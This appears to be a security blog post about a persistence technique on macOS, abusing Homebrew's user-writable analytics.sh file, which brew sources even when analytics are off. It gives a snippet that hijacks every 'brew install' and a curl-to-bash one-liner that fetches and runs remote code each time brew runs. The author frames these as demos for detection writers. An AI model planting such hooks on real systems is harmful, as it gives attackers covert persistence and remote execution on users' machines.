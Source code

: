 ```yaml
---
author: noncetonic
layout: post
title: HomeBrood 0x00 - Surreptitious hijacking of Homebrew on macOS
---
```


## Foreward 

I thought it might be fun to poke at Homebrew and see what kind of things I could find. Welcome to the beginning of what I hope will be a small but fun series of posts on abusing HomeBrew.

HomeBrood 0x00

## Homebrew Analytics

By default, `homebrew` is set to phone home to Google Analytics over HTTPS and provide a number of known, documented, metadata strings claimed by the Homebrew team to help maintainers and as such "leaving it on is appreciated".

The more paranoid-inclined user seeking to cut down on the data they freely hand over to Google and other analytic companies may already know to disable analytics right after installing homebrew and before going off and installing packages. Unfortunately, as will be shown homebrew analytics can be far more dangerous than it would appear.

Check out https://github.com/Homebrew/brew/blob/master/docs/Analytics.md to read more about the information gathered by Homebrew Analytics and how to disable this feature or just run `brew analytics off` to disable Homebrew Analytics if `brew analytics` does not return "Analytics is disabled."

### Analytricks

Reading through `/usr/local/Homebrew/Library/Homebrew/brew.sh` reveals an interesting opportunity for a number of possible scenarios for attacks but a basic example of persistence will be provided here to keep with the context of this file.

```
# Don't need shellcheck to follow this `source`.
# shellcheck disable=SC1090
source "$HOMEBREW_LIBRARY/Homebrew/utils/analytics.sh"
setup-analytics
```
> From `/usr/local/Homebrew/Library/Homebrew/brew.sh`

First and foremost the `$HOMEBREW_LIBRARY/Homebrew/utils/analytics.sh` file (full, expanded path `/usr/local/Homebrew/Library/Homebrew/utils/analytics.sh`) is sourced blindly without attempting to ensure the file even exists and then proceeds to run the newly exported `setup-analytics` function donated by analytics.sh. This means that even when Homebrew Analytics has been explicitly disabled on a system it is not until after all code within `analytics.sh` is run that Homebrew checks whether or not analytics should be sent.

It's simple to see how easily the user-owned, user-writeable `analytics.sh` file can be abused by simply adding commands to the end of the `analytics.sh` file or within the  `setup-analytics` function, hell you're free to write your own bash script altogether and including an empty setup-analytics function to keep from causing an error. This all happens pretty early on in the logic for subcommands of the `brew` command; shortly after determining the subcommand and well before processing package names and subcommand options are slurped in for processing. This makes it possible to pass a malicious package name during a `brew install` command in addition to running just about anything you want.

Let's explore some of these attacks and their implementation.

#### Hijacking `brew install`

Add the following tiny modification at the bottom of the `analytics.sh` file

```
# Prepend a defined package to all invocations of `brew install`
if [[ "$HOMEBREW_COMMAND" = "install" ]]
then
  set "YOUR_DESIRED_PACKAGE_HERE" "$@"
fi
```

Nice and easy. As the `analytics.sh` file is sourced into `brew.sh` we are lucky enough to have access to the `$HOMEBREW_COMMAND` variable which holds the subcommand sent to the `brew` command as well as `$@` which contains the arguments passed to the subcommand.

Presumably the possibly most esoteric bit of code here for beginner BASH scripters is the line starting with `set`.  
The `set` command allows rearranging the order of the arguments passed on the commandline and in this example simply prepends whichever package you choose  to the list of arguments the user provided which ensures our desired package is installed first and can hopefully get lost in the wall of text generated during a `brew install`.

This same concept can be applied to run any commands you want, you are not limited to simply brew commands. For example if you'd just like to have a compromised host send a request to a server wehenever `brew` is run as a way of gaining access to the network in case of being forcefully ejected from the network or just because networks are hard a simple script could be written which sends a GET request to a remotely hosted file and executing any commands within that file.

```
bash <(curl -s https://gist.githubusercontent.com/n0ncetonic/1d965369574a413b4dd1e4514e27992a/raw/675a9546c6ecdb46ce5a6b13a7faf63428359e53/example.sh)
```

Adding this simple one-liner into `analytics.sh` will cause the contents of the remote file to be run whenever `brew` is run.

## Closing

These PoCs are intended to be used as demos in aiding teams attempting to write detections around TTPs which could be leveraged by threat actors to avoid triggering common persistence detection checks . The potential for far more complex payloads which take advantage of this Technique are the responsibility of the reader to create.

If you do happen to come up with something fun that takes advantage of this simple `brew` command hijack please let me know via twitter @noncetonic
